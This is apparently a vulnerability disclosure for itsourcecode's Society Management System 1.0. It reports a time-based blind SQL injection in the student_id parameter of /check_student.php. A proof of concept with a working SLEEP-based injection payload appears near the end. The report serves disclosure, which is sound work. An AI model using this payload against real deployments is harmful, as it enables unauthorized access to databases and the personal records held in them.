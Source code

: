 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

There is an SQL injection vulnerability on the /check_student.php page.
<img width="1100" alt="image" src="https://github.com/user-attachments/assets/f6d49d3e-5598-4772-95d5-2e1b305a079f">


# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=12345678' AND (SELECT 2119 FROM (SELECT(SLEEP(5)))fURM) AND 'Njoa'='Njoa
```
